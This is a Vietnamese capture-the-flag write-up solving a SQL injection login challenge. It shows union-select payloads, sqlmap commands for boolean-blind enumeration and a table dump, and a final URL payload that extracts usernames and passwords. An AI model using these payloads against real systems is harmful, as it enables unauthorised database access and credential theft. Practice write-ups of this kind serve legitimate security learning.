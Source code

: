 Ta có form challenge 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/44737ee2-00de-4178-bdc5-bf88ded795af)

Mình thử vài payload đơn giản trước sau đó xác định số column.Với payload `'or 1=1-- -` cho kết quả

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d2118455-d23e-4b00-9dce-0a77a069adda)

Nhưng nó không có dễ tới mức như vậy, nên mình xác định columns `1'union select 1,2,3-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bfcfc454-e714-4353-8890-5fb72dbb7c95)

Vậy là có 3 trường và điểm hiển thị là 2 và 3.Mình sẽ dùng sql map để làm bài này cho nhanh.

Ta lấy request khi login vào và để password là `*` để chọn đó làm điểm inject. Ta sử dụng command này `python3 sqlmap -r Blind.txt --dbs --technique=B --string="admin"`

–technique là B(Boolean-Based Blind SQL injection), –string là admin để nó bắt chuỗi admin khi câu lệnh là đúng. Kết quả trả về:

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d8bd7cfc-67d7-4e4f-8587-b90de903c2ba)

Bây giờ ta sẻ liệt kê trong database Geek `python3 sqlmap.py -r Blind.txt -D geek -tables --technique=B --string="admin"`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/04d488d8-f705-4423-a588-b59a3a06ccad)

Kết quả cho ra 2 table, mình sẽ dump để tìm ra flag `python3 sqlmap -r Blind.txt -D geek -T l0ve1ysq1 --dump --technique=B --string="admin"`

Hoặc là nhanh hơn dùng payload này `/check.php?username=admin' and 1=2 union select 1,2,group_concat(id,username,password) from l0ve1ysq1-- -&password=1`






